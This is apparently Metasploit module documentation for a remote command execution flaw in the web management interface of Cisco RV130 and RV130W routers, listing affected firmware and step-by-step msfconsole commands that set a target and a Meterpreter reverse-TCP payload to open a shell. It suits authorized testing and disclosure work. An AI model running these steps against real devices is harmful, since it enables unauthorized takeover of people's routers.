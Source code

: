 # Cisco RV130W Routers Management Interface Remote Command Execution

A vulnerability in the web-based management interface of the Cisco RV130W Wireless-N Multifunction VPN Router could allow an unauthenticated, remote attacker to execute arbitrary code on an affected device.

The vulnerability is due to improper validation of user-supplied data in the web-based management interface. An attacker could exploit this vulnerability by sending malicious HTTP requests to a targeted device.

A successful exploit could allow the attacker to execute arbitrary code on the underlying operating
system of the affected device as a high-privilege user.

## Vulnerable Device

* RV130 Multifunction VPN Router versions prior to 1.0.3.45 are affected.
* RV130W Wireless-N Multifunction VPN Router versions prior to 1.0.3.45 are affected.

This exploit was specifically written against version 1.0.3.28. To test, you can find the
firmware here: https://software.cisco.com/download/home/285026141/type/282465789/release/1.0.3.28

## Verification Steps

1. Start msfconsole
2. ```use exploit/linux/http/cisco_rv130_rmi_rce```
4. ```set rhost [IP]```
5. ```set payload linux/armle/meterpreter_reverse_tcp```
6. ```set lhost [IP]```
7. ```exploit```
8. You should get a session

